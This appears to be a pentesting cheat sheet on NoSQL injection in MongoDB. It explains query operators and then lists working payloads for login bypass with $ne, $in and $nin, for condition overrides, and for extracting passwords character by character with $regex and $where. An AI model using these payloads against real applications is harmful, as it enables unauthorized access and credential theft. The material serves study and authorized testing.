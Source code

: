 ```yaml
---
title: NoSQL Injection
description: Similar to SQL injection, but targeting databases that don't use traditional relational table structures.
---
```

Similar to SQL injection, NoSQL injection targets databases that don’t follow traditional relational table structures. If untrusted user input is directly included in a NoSQL query, an attacker may be able to modify the query's logic.

NoSQL injection affects NoSQL database such as MongoDB, Apache Cassandra.

There are two main types of NoSQL injection:

- **Syntax Injection**: Breaking out of the intended query structure to alter its behaviour.
- **Operator Injection**: Injecting NoSQL-specific operators (e.g., `$ne`, `$gt`) to manipulate query results or bypass conditions.

## MongoDB
MongoDB is a NoSQL database that stores data in documents instead of tables. Each document uses a key-value pair structure. e.g.
```json
{
	"_id" : ObjectId("5f077332de2cdf808d26cd74"), 
	"username" : "lphillips", 
	"first_name" : "Logan", 
	"last_name" : "Phillips", 
	"age" : "65", 
	"email" : "lphillips@example.com" 
}
```
Documents are grouped into collections, and multiple collections form a database.

### Querying database
```
['last_name' => 'Sandler']
```

```
['gender' => 'male', 'last_name' => 'Phillips']
```

```
['age' => ['$lt'=>'50']]
```

### Query Operators
- `$where` - Matches documents that satisfy a JavaScript expression.
- `$ne` - Matches all values that are not equal to a specified value.
- `$in` - Matches all of the values specified in an array.
- `$regex` - Selects documents where values match a specified regular expression.

[MongoDB Operator Reference](https://www.mongodb.com/docs/manual/reference/operator/query/)
## Exploit
### Syntax Injection
**Testing how the application parses and handle unexpected input**

Injecting in the url:
```
'"`{ ;$Foo} $Foo \xYZ
```

Injecting in json:
```
'\"`{\r;$Foo}\n$Foo \\xYZ\u0000
```

Fuzzing individual characters
```
'
"
\
{
}
[
]
:
,
$
.
;
(
)

```

**Testing conditional behaviour**

The backend my run something like:
```js
this.category == 'Gifts' && this.limit == 3
```

Overriding existing conditions
```
' && 1 == 1
' && '1' == '1
' || 1 == 1
' || '1' == '1
' || 1 || '
' || '1' == '1
```

 **Extract the password character by character.**
```css
admin' && this.password[0] == 'a' || 'a'=='b
```

**Check if password contains digits**
```css
admin' && this.password.match(/\d/) || 'a'=='b
```
### Operator Injection

#### `$ne`

```json
{
	"username": "admin",
	"password": {
		"$ne": "xyz"
	}
}
```

```css
username=admin&password[$ne]=xyz
```

#### `$in`
```json
{
	"username": {
		"$in":[
			"admin",
			"ADMIN"
		]
	},
	
	"password":{
		"$ne": "xyz"
	}
}
```

```css
username[$in][]=admin&username[$in][]=ADMIN&password[$ne]=xyz
```

#### `$nin`
```json
{
	"username":{
		"$nin":[
			"admin",
			"ADMIN",
			"wiener"
		]
	},

	"password":{
		"$ne": "xyz"
	}
}
```

```css
username[$nin][]=admin&username[$nin][]=ADMIN&username[$nin][]=wiener&password[$ne]=xyz
```

####  `$regex`

Start with `s`:
```json
"$regex": "^s"
```

Character length:
```json
"$regex": "^.{7}$"
```

Guessing word
```json
"$regex": "^c.......$"
```

#### `$where`

Return first object and first character is `a`
```json
"$where":"Object.keys(this)[0].match('^.{0}a.*')"
```

Find length
```json
"$where":"Object.keys(this)[0].length == 1"
```

Finding the value 
```json
"$where": "this[Object.keys(this)[4]][0] == 'a'"
```


## Resources
- [MongoDB Operator Reference](https://www.mongodb.com/docs/manual/reference/operator/query/)
- [HackTricks NoSQL](https://book.hacktricks.wiki/en/pentesting-web/nosql-injection.html)
- [Exploit Notes NoSQL](https://exploit-notes.hdks.org/exploit/web/security-risk/nosql-injection/)
